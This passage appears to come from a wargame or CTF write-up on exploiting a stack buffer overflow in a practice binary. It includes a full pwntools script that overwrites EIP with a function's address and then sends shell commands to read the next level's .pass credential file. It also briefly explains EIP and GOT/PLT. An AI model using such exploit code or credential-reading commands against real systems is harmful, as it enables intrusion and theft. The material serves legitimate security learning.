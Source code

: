 The `system@plt` function is a wrapper for the `execve()` system call, which is used to execute shell commands.

#### 🎯 The Exploit: Redirecting Execution

To exploit this vulnerability, you need to overwrite the **EIP** with the address of the run function. The CPU reads memory in **little-endian** format, so you need to place the address in little-endian order (reversed byte order).

Once the **EIP** is set to the address of run, it will execute the function, which calls **system()**, and from there, you can control what command is executed.

```python
#!/usr/bin/env python3

import sys

try:
    from pwn import *
except ImportError as err:
    print("ImportError: %s" % (err))
    sys.exit(1)

context.update(arch='i386', os='linux')
s=ssh(host='10.12.249.47',user='level1',password='XXXXX',port=4242)

p = s.process("./level1")

run = p.elf.symbols['run']

payload = b'\x42' * 76
payload += p32(run) # run()

p.sendline(payload)

p.recvuntil(b'Good... Wait what?')
p.sendline(b"cd ../level2")
p.sendline(b"cat .pass")

flag = p.recvline()
print(flag)

p.interactive()
p.close()
```

#### 🔑 Key Concepts to Remember

- **GOT/PLT**: The Global Offset Table (GOT) and Procedure Linkage Table (PLT) are used for dynamic linking. The binary uses them to resolve function addresses at runtime, allowing for greater flexibility.
- **EIP**: The Instruction Pointer register determines which instruction the CPU will execute next. Overwriting it allows you to control the program's flow.

#### Good luck on your journey to mastering buffer overflow exploits! 🌟
